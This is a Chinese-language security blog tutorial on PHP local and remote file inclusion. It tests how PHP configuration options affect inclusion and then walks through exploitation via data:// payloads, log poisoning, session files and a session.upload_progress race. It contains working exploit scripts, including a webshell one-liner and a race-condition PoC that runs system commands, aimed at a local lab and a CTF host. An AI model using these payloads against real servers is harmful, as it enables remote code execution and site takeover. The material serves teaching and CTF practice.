## **0X01 前言**

这篇文章介绍文件包含漏洞。

<!--more-->

## **0X02 最常见的两个函数的形象解释：**

我们知道文件包含最常见的是两个函数 include() require()（这里就不谈他们的亲戚 include_once() 和 require_once() 了）

在php 这个工厂里，include() 是一个比较松散的员工，平时没有活干的时候他就闲着，从来不想着自己看有什么活主动一点，于是只有当程序运行到 include() 的时候他才会执行，并且呢也因为他松散的天性，在出错的时候他也只是报一个警告，并不会让程序中断

但是，有另一名员工 require() 他能力和include() 差不多，但是他这个人就非常的有上进心，工作认真负责，他一看到程序运行就立刻包含，不会像include() 一样等别人催，并且 require() 还会在出错的时候非常认真地报错，并小心谨慎地阻止程序继续运行

## **0X03 回顾allow_url_fopen & allow_url_include**

之前玩PHP文件包含的时候似乎没有怎么深入的试验过这两个选项的开启对PHP文件包含究竟有什么影响，网上的大多数的资料也都是含糊其辞，反正我是没找到比较统一的说法，可能我太菜了，于是我不想浪费时间，打算亲自试一试。

### **1.PHP 文件有哪几种常见的函数？**

include()/include_once()
require()/require_once()
file_get_contents()
readfile()

那么这两个选项的开启与否是对这几个函数的包含能力有什么影响呢？我们下面做一个测试。

### **2.测试开始：**

#### **一、include()**

**测试代码：**

```php
<?php  $file = $_GET['filename']; include($file); ?> 
```

1.allow_url_fopen = Off | allow_url_include = Off

(1)普通方式包含本地文件（正常）
(2)普通方式包含远程文件（不正常）
(3)伪协议方式包含文件（不正常）

2.allow_url_fopen = Off | allow_url_include = On 

(1)普通方式包含本地文件(正常)
(2)普通方式包含远程文件(不正常)
(3)伪协议方式包含文件(正常)

3.allow_url_fopen = On | allow_url_include = Off

(1)普通方式包含本地文件(正常)
(2)普通方式包含远程文件(不正常)
(3)伪协议方式包含文件(不正常)

4.allow_url_fopen = On | allow_url_include = On

(1)普通方式包含本地文件(正常)
(2)普通方式包含远程文件(正常)
(3)伪协议方式包含文件(正常)

**结论：**

对include()：

allow_url_include 的开启对能否使用**伪协议 php://input  data://**的形式起着**决定作用**，其他伪协议似乎没有影响
allow_url_fopen单独开启没有实质作用，但是和 allow_url_include 结合就能实现远程包含

#### **二、require()**

**测试代码：**

```php
<?php  $file = $_GET['filename']; require($file); ?> 
```

经测试，require() 和 include() 是一样的结果

#### **三、readfile()**

**测试代码：**

```php
<?php  $file = $_GET['filename']; echo  readfile($file); ?> 
```

1.allow_url_fopen = Off | allow_url_include = Off

(1)普通方式读取本地文件（正常–>源码中出现）
(2)普通方式读取远程文件（不正常–>报错）
(3)伪协议方式读取文件（不正常 –>源码不出现）

2.allow_url_fopen = Off | allow_url_include = On 

(1)普通方式读取本地文件(正常–>源码出现)
(2)普通方式读取远程文件(不正常–>报错)
(3)伪协议方式读取文件(正常–>源码出现)

3.allow_url_fopen = On | allow_url_include = Off

(1)普通方式读取本地文件(正常–>源码出现)
(2)普通方式读取远程文件(正常–>源码出现)
(3)伪协议方式读取文件(正常–>源码出现)

4.allow_url_fopen = On | allow_url_include = On

(1)普通方式读取本地文件(正常–>源码出现)
(2)普通方式读取远程文件(正常–>源码出现)
(3)伪协议方式读取文件(正常–>源码出现)

**结论：**

对readfile()：

allow_url_include 对其没有任何影响
allow_url_fopen 能让其读取远程文件

**注：**readfile 返回从文件中读入的字节数，所以页面中返回的应该是读取到的文件的字节数

#### **三、file_get_contents()**

**测试代码：**

```php
<?php  $file = $_GET['filename']; echo  file_get_contents($file); ?> 
```

1.allow_url_fopen = Off | allow_url_include = Off

(1)普通方式读取本地文件（正常–>源码出现）
(2)普通方式读取远程文件（不正常–>报错）
(3)伪协议方式读取文件（正常–>源码出现）

2.allow_url_fopen = Off | allow_url_include = On 

(1)普通方式读取本地文件(正常–>源码出现)
(2)普通方式读取远程文件(不正常–>报错)
(3)伪协议方式读取文件(正常–>源码出现)

3.allow_url_fopen = On | allow_url_include = Off

(1)普通方式读取本地文件(正常–>源码出现)
(2)普通方式读取远程文件(正常–>源码出现)
(3)伪协议方式读取文件(正常–>源码出现)

4.allow_url_fopen = On | allow_url_include = On

(1)普通方式读取本地文件(正常–>源码出现)
(2)普通方式读取远程文件(正常–>源码出现)
(3)伪协议方式读取文件(正常–>源码出现)

**结论：**

对 file_get_contents()

allow_url_include 对其没有任何影响
allow_url_fopen 能让其读取远程文件

## **0X04 文件包含的分类以及利用方式：**

### **一、远程文件包含：**

#### **1.基本概念**

远程文件包含一般需要 allow_url_fopen 和 allow_url_include 全部打开，其主要利用就是包含远程服务器上面的恶意代码，让其在目标主机上运行，这样我们就能得到一个假的webshell(这个shell 是基于服务器上本身存在的文件的)，有了这个假的shell 我们实际上就能进行操作了，**但是如果你有强迫症**，非要一个自己写的完整的 shell 放在服务器上，我们可以有两种方法:

**(1)方法一：**

我们包含的文件并不是一句话，而是使用 

file_put_contents("路径","内容")； 

向 web 目录（一般网站的web 目录都是可写的）写入一个 真shell，然后我们去连，这也是在我们遇到文件飞快删除的一个解决方法（条件竞争中或者是AWD中经常用）

**(2)方法二：**

利用这个假shell 的小马，上传另一个小马（我觉得没有必要），或者上传一个大马上去

#### **2.常见利用**

既然是包含远程文件，那我们是不是要用到协议，除了常见的 http:// https:// php 还给我们提供了常见的可以用来包含的协议，比如说 ftp:// data:// 

我就用 data 给大家演示一下

**data://**

其实不仅仅是 PHP 连浏览器都支持 data: 协议

**格式：**

```php
data:资源类型;编码,内容 
```

简单来说，要生成一个html资源，可以这样：

```php
data:text/html;ascii,<html><title>hello</title><body>world</body></html> 
```

这里我直接给出 payload:

```php
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw== 
```

其中 base64 部分就是 <?php phpinfo();

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/php data.png)

### **二、本地文件包含：**

本地文件包含是在远程文件包含不能使用的情况下的选择，我们包含的对象主要是敏感文件，以及我们可控内容的文件,以下是常见的可以包含的文件：

#### **1.日志**

日志文件污染是通过将注入目标系统的代码写入到日志文件中。通常，访问目标系统上的某些对外开放的服务时，系统会自动将访问记录写入到日志文件中，利用这个机制，有可能会将代码写入到日志中。例如，利用一个包含PHP反弹shell的URL访问目标系统时，目标系统会返回一个404页面，并将创建一个apache的访问记录，记录中会包含之前的PHP反弹shell。利用之前已经发现的文件包含漏洞，可以解析apache的日志文件，从而执行日志中的PHP反弹shell。

日志文件的位置的确定就要前期的信息收集，一方面确定默认的日志的位置，另一方面可以利用这个包含漏洞包含一些配置文件寻找日志的位置

**测试代码：**

```php
<?php

if(array_key_exists("rf", $_GET)){
    $page = $_GET['rf'];
    if($page != ''){
        include($page);
    }
}
else{
    echo '<script>window.location.href = "./incfile.php?rf="</script>';
}
?>

<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    </head> 
    <body>
        <center>
            <h2>测试页： rf=include($input);</h2>
            <h3>----测试完毕后请立即删除----</h3>
        </center>
    </body>
</html>
```

首先我们截获数据包，在传入参数的地方输入

```php
<?php phpinfo();?> 
```

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/包含日志1.png)

之后我们就会在access.log 中看到我们的请求

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/包含日志2.png)

尝试包含

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/包含日志3.png)

可以看到我们成功的包含了日志文件

**注意：**

(1)除了我们包含 access.log 以外，我们还可以制造错误，然后包含 error.log
(2)如果出现包含不成功的情况，很有可能就是被 open_base_dir() 限制了
(3)实战中最好在凌晨的时候进行包含，要不然日志太大包含会失败
(4)除了 apache 和 nginx 的日志 还有很多其他的日志我们能利用，比如说 ssh 的日志 

#### **2.SESSION**

session默认存储路径：

```php
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/var/lib/php5/sess_PHPSESSID
/var/lib/php5/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```

##### **原理分析**

使用了session来保存用户会话，php手册中是这样描述的：

1.PHP 会将会话中的数据设置到 $_SESSION变量中。
2.**当 PHP 停止的时候**，它会自动读取 $_SESSION 中的内容，并将其进行序列化，然后发送给会话保存管理器来进行保存。
3.对于文件会话保存管理器，会将会话数据保存到配置项 session.save_path 所指定的位置。

php的session文件的保存路径可以在phpinfo()的session.save_path看到，

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session 存放位置.png)

**补充：**

常见的php-session存放位置：

```php
/var/lib/php/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```

我们来亲自做一个小实验吧

首先我们使用 php 中的创建 session 的函数写一段小代码

**示例代码：**

```php
<?php 
//启动session的初始化
session_start();
//注册session变量，赋值为一个用户的名称 
$_SESSION["username"]="K0rz3n"; 
?> 
```

然后访问这个页面后，我们去 phpinfo 中告诉我们的位置找一下这个文件

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session文件.png)

再看一下我们的 cookie 中的 PHPSESSID

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/PHPSESSID.png)

是不是和文件名中的一部分完全一样？ 再次验证了session 文件的命名规则是 sess_[PHPSESSID]

session 里面的内容是什么呢

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session 内容.png)

我们清楚地看到，session 文件中的内容正是文档中所说的是一个序列化过的内容

##### **实战一：PhpMyadmin 4.8.1 后台 getshell**

所以我们如果想包含 session 文件，要求还是比较的苛刻，我们必须要能控制 session 的输入，但是最近我发现了一个很好的实例 PhpMyadmin 4.8.1 后台 getshell ，其中有一种巧妙的利用方式就是利用包含我们访问 phpmyadmin 的 session 文件

我们只要在 phpmyadmin 中执行如下语句

```php
select "<?php phpinfo();?>"; 
```

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/phpmyadmin 包含session1.png)

然后我们去找那个 session 文件

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/phpmyadmin 包含session2.png)

哈哈，接下来就是我们文件包含漏洞大显申通的时候了

##### **实战二：利用 session.upload_progress getshell**

在我们的利用面涉及到两个重要的选项，**session_upload_progress.enable** 和 **session_upload_progress.cleanu**p 而这两个选项 php 官方是默认开启的，并且强烈推荐我们开启

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/Progress enable default.png)

我们回归正题，先解释一下这个上传进度的概念

###### **1.先来了解一下什么是 session.upload_progress**

**session.upload_progress 是PHP5.4的新特征**

**官方文档的介绍如下：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session upload1.png)此处输入图片的描述

ps: 这个说的好像有一点问题，应该是与 session.upload_progress.name 的值连接在一起的值

那么这两个参数在 phpinfo(); 中的究竟是什么样子呢？因为后面已一直用到，所以我们先来看一下

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session 参数的值.png)

###### **2.我们用实例代码解释一下上传进度**

**POST 的表单**

```php
<html>
<head></head>
<body>
    <form action="./upload.php" method="post" enctype="multipart/form-data">
     <input type="hidden" name=<?php echo ini_get('session.upload_progress.name');?> value="123" />
     <input type="file" name="file1" value = ""/>
     <input type="file" name="file2" value = ""/>
     <input type="submit" name = "submit" value = "upload"/>
    </form>
</body>
</html>
```

我们看到，这个 POST 表单通过 ini_get(“session.upload_progress.name”) 在 hidden POST 了一个和 php.ini 中 session.upload_progress.name 名字一样的数据，值为123

如果我们能通过疯狂发包，使得这个 hidden 的 POST 数据能在文件传输没有完成的时候被服务器接收到，那么服务器就会在 session 临时文件中存储 这个文件的上传进度（当然是以序列化的形式显示的）

为了能清楚地展示这个 session ，我假设我们的 upload.php 中存在下面的语句,$_SESSION 的值就能输出来 

```php
$key = ini_get("session.upload_progress.prefix") . $_POST[ini_get("session.upload_progress.name")]; 
echo $_SESSION[$key]; 
```

于是我们得到了类似这样的 **$_SESSION 数据**

```php
<?php
$_SESSION["upload_progress_123"] = array(
 "start_time" => 1234567890,   // The request time
 "content_length" => 57343257, // POST content length
 "bytes_processed" => 453489,  // Amount of bytes received and processed
 "done" => false,              // true when the POST handler has finished, successfully or not
 "files" => array(
  0 => array(
   "field_name" => "file1",       // Name of the <input/> field
   // The following 3 elements equals those in $_FILES
   "name" => "foo.avi",
   "tmp_name" => "/tmp/phpxxxxxx",
   "error" => 0,
   "done" => true,                // True when the POST handler has finished handling this file
   "start_time" => 1234567890,    // When this file has started to be processed
   "bytes_processed" => 57343250, // Amount of bytes received and processed for this file
  ),
  // An other file, not finished uploading, in the same request
  1 => array(
   "field_name" => "file2",
   "name" => "bar.avi",
   "tmp_name" => NULL,
   "error" => 0,
   "done" => false,
   "start_time" => 1234567899,
   "bytes_processed" => 54554,
  ),
 )
);
```

可以看到我们的 123 赫然出现在 session 的数组中，那么如果我们 POST 的值不是 123 而是 <?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?> 呢，是不是我们就能通过包含这个session 文件达到写shell 的目的了呢？

但是还存在一个问题，当 session.upload_progress.cleanup为 On 的时候，$_SESSION 中的这个上传进度信息会在读取完全部的 POST 数据后立刻删除（删除的是 session 文件中的上传进度的部分内容，而不是session ），于是乎这个时候就需要条件竞争

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session enable.png)此处输入图片的描述

我们从 PHPSESSID 中得到我们的 session 名以后，我们就一边疯狂请求 upload 页面 一边疯狂包含我们的 session 文件就好了

**这里给出一个 可用的 POC**

```php
#!coding:utf-8

import requests
import time
import threading

host = 'http://localhost'
PHPSESSID = 'vrhtvjd4j1sd88onr92fm9t2gt'

def creatSession():
    while True:
        files = {
        "submit" : ("tmp.gif", open("E:/fuck.gif", "rb"))
        }
        data = {"PHP_SESSION_UPLOAD_PROGRESS" : "<?php echo 'K0rz3n';file_put_contents('F:/muma.php','<?php phpinfo();?>');?>" }
        headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
        r = requests.post(host+'/index.php',files = files,headers = headers,data=data)


fileName = "E:/phpstudy/PHPTutorial/tmp/tmp/sess_"+PHPSESSID

if __name__ == '__main__':

    url = "{}/qweasdzxc.php?rf={}".format(host,fileName)
    headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
    t = threading.Thread(target=creatSession,args=())
    t.setDaemon(True)
    t.start()
    while True:
        res = requests.get(url,headers=headers)
        if "K0rz3n" in res.content:
            print res.content
            print("[*] Get shell success.")
            break
        else:
            print("[-] retry.")
```

对于这个 POC 我在本地也做了测试，下面是我的测试过程

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/session getshell.gif)此处输入图片的描述

其中，我为了演示的效果还把 session 文件在那一瞬间的内容给大家显示出来了，就是下面这段内容

```php
upload_progress_K0rz3n|a:5:{s:10:"start_time";i:1540314711;s:14:"content_length";i:764161;s:15:"bytes_processed";i:5302;s:4:"done";b:0;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:6:"submit";s:4:"name";s:7:"tmp.gif";s:8:"tmp_name";N;s:5:"error";i:0;s:4:"done";b:0;s:10:"start_time";i:1540314711;s:15:"bytes_processed";i:5302;}}} 
```

**注意：这里有一个误区**

发现，如果我们的 POST 请求中带着 session.upload_progress.name 的值，不管服务端PHP有没有session_start() 的调用， 只要我们在请求头中填上 PHPSESSID(符合格式，随便你怎么写),服务器就会根据我们这个PHPSESSID 在session 文件的默认存放位置生成一个 session 文件，这个方法也是 hitcon 2018 Orange 提醒我们的 

###### **3.实际的案例**

**问题一**

代码里没有`session_start()`,如何创建session文件呢。

**解答一**

其实，如果`session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。

但session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session  ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。  并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。    

**问题二**

但是问题来了，默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，

**如何进行rce呢？**

**解答二**

此时我们可以利用竞争，在session文件内容清空前进行包含利用。

```python
import io

import sys

import requests

import threading

sessid = 'whoami'

def POST(session):

    while True:

        f = io.BytesIO(b'a' * 1024 * 50)

        session.post(

            'http://2f0dc537-6285-4cc7-aff0-eea69296dbaa.node3.buuoj.cn/',

            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat /proc/self/cwd/flag.php');?>"},

            files={"file":('q.txt', f)},

            cookies={'PHPSESSID':sessid}

        )

def READ(session):

    while True:

        response = session.get(f'http://2f0dc537-6285-4cc7-aff0-eea69296dbaa.node3.buuoj.cn/?file=../../../../../../../../tmp/sess_{sessid}')    # 该题生成的session存放在/tmp目录下

        # print('[+++]retry')

        # print(response.text)

        if 'flag{' not in response.text:

            print('[+++]retry')

        else:

            print(response.text)

            sys.exit(0)

with requests.session() as session:

    t1 = threading.Thread(target=POST, args=(session, ))

    t1.daemon = True

    t1.start()

    READ(session)
```



#### **3.数据库文件**

我们知道，我们的数据库就是从纯文件的管理方式中进化而来，但是，计算机中存储的依然是文件，那么我们能不能在数据库中动动手脚，向数据库中的某个文件注入我们的恶意代码然后本地文件包含呢？当然可以，在 phpmyadmin 4.8.1 后台 getshell 中漏洞的发现者就是利用了这样一种技术成功包含了数据库的文件

如果我们有创建表的权限，我们完全可以将表的某个字段写成一个一句话，然后我们找到这个表对应的文件包含之

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/表字段写 shell.png)此处输入图片的描述

我们知道数据库的一起都是以文件的形式存在的，我们来找一下这个文件

**如图所示:**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/写入shell.png)

#### **4.临时文件**(笔记目录下保存了一篇安全客的文章LFI的利用，讲的很清楚)

##### 方式一：phpinfo

向服务器上**任意php文件**以 **form-data** 方式提交请求上传数据时，会生成临时文件,通过**phpinfo**来获取临时文件的路径以及名称,然后临时文件在极短时间被删除的时候,需要条件竞争包含临时文件，然后如果临时文件的内容是一个向 web 目录写一句话，我们就能成功执行这段代码，并写 shell 到 web 目录最终拿到webshell(临时文件的文件名和位置需要在phpinfo 页面中查看)

下图为 PHP 处理临时文件的整个过程：

